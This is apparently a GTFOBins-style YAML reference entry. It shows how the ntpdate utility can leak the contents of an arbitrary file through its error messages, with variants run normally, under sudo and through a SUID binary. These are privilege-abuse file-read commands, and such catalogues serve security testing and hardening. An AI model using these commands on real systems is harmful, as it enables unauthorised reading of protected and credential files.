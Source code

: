 ```yaml
---
description: The file is actually parsed and lines are leaked through error messages.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        ntpdate -a x -k $LFILE -d localhost
  sudo:
    - code: |
        LFILE=file_to_read
        sudo ntpdate -a x -k $LFILE -d localhost
  suid:
    - code: |
        LFILE=file_to_read
        ./ntpdate -a x -k $LFILE -d localhost
---
```

